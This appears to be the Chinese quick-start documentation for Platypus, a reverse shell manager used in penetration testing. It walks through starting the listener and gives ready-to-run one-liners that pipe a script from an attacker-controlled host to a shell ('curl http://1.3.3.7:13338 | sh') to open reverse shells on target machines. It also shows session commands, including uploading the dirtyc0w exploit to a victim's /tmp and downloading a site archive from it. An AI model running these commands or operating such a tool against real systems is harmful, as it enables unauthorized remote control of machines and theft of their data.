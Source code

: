 # 快速上手

!!! Tips
    您可以在[**这里**](https://github.com/WangYihang/Platypus/releases)下载到最新的 Release 版，
    您也可以参考[**这里**](./build.md)直接从源码编译得到 Platypus 的可执行文件。

## 运行

!!! Hint
    这里假设 Platypus 运行在具有公网 IP 的服务器上，其 IP 为 1.3.3.7。

### Linux

```
./platypus_linux_amd64
```
### Windows

```
.\platypus_windows_amd64.exe
```

启动时 Platypus 将会进行一些初始化工作，并开始监听反向 Shell 端口，一切准备就绪之后，Platypus 将会以命令提示符 `» ` 来提示用户可以开始输入命令与之交互。

!!! Tips
    如果您对 Platypus 的具体启动流程感兴趣，可以参考[本文](./03-startup.md)。

## 反弹一个反向 Shell

受到 [lukechilds](https://github.com/lukechilds) 的 [reverse-shell](https://github.com/lukechilds/reverse-shell) 项目的启发，Platypus 支持 Reverse Shell as a Serivce (RaaS)，基本语法与其相同。在 RicterZ 的[推荐](https://github.com/WangYihang/Platypus/issues/30)下，增加了一些不同语言的反向 Shell 的 Payload。

您可以直接在目标机器上执行如下命令得到一个反向 Shell，从此不用再记忆各种繁琐的反向 Shell 命令。
如果您希望了解更加高级的 RaaS 的用法，请参考[本文](./../../RaaS.md)。

```bash
curl http://1.3.3.7:13338 | sh
```

### 反弹 Shell 至当前 Platypus（`1.3.3.7:13338`）

```bash
curl http://1.3.3.7:13338 | sh
curl http://1.3.3.7:13338/python | sh
```

### 反弹 Shell 至其他平台（`2.3.3.7:4444`）

```bash
curl http://1.3.3.7:13338/2.3.3.7/4444 | sh
curl http://1.3.3.7:13338/2.3.3.7/4444/ruby | sh
```

反弹成功之后，Platypus 会对新上线的 Shell 进行基础的信息搜集（如：操作系统，用户名等），
当信息搜集结束后，即可利用 Platypus 与之进行交互。

## 与 Platypus 交互

!!! Hint
    Platypus 提供 3 种与之交互的方式。

    * [命令行](/交互/cli/)
    * [Web 界面](/交互/web/)
    * [Python SDK](/交互/sdk/)

这里只介绍最基础的**命令行**模式的一些命令。

!!! Hint
    Platypus 对命令的大小写不敏感并且支持 Tab 自动对命令进行补全，您可以输入命令前缀然后按下 ++tab++ 键即可自动补全。

Platypus 的命令行模式支持 `Help`、`List`、`Jump`、`Download`、`Upload` 以及 `Interact` 等命令。

### Help

打印命令的帮助信息。

#### 列出所有受支持的命令

```bash
» Help
```

#### 列出 List 命令的帮助信息

```bash
» Help List
```

### List

列出当前正在监听的服务器以及每一个服务器上存活的 Shell。

```bash
» List
2021/08/11 22:46:10 Listing 2 listening servers
2021/08/11 22:46:10 [9442daedd052d7cdfebc43092a4a3050] is listening on 0.0.0.0:13337, 0 clients
2021/08/11 22:46:10 [1b7fb280df68ceebae36060c938a2ced] is listening on 0.0.0.0:13338, 0 clients
```

### Jump

!!! Tips
    Platypus 会根据配置文件中的[哈希计算模式](./hashing.md)对每一个上线的 Shell 计算哈希，该哈希会作为该 Shell 的唯一标识。

跳转到某一个 Shell 对其进行操作。

例如：

```
» Jump 1b7fb280df68ceebae36060c938a2ced
```

跳转成功后，终端的命令提示符将会修改为当前 Shell 的相关信息。
后续的命令（如：`Interact`）将会直接对当前的 Shell 进行操作。

### Interact

当跳转到某一个 Shell 之后，与之进行交互。

!!! Warning
    * 如果您直接执行 Interact 命令得到的 Shell 将会与 netcat 类似，并非纯交互式 Shell。
    * 如果您想要退出当前正在交互的 Shell，可以直接输入 `exit` 即可返回。
    * 如果您希望得到一个**像 SSH 一样好用丝滑的 Shell** 请参考[本文](./04-interact.md)。

### Upload / Download

当跳转到某一个 Shell 之后，上传或下载文件。

#### 上传文件

将 Platypus 当前文件夹下的 `dirtyc0w.c` 上传至当前交互主机的 `/tmp/dirtyc0w.c`。
```bash
» Upload ./dirtyc0w.c /tmp/dirtyc0w.c
```

#### 下载文件

将当前交互主机的 `/tmp/www.tar.gz` 下载至 Platypus 当前文件夹下的 `www.tar.gz` 中。

```bash
» Download /tmp/www.tar.gz ./www.tar.gz
```
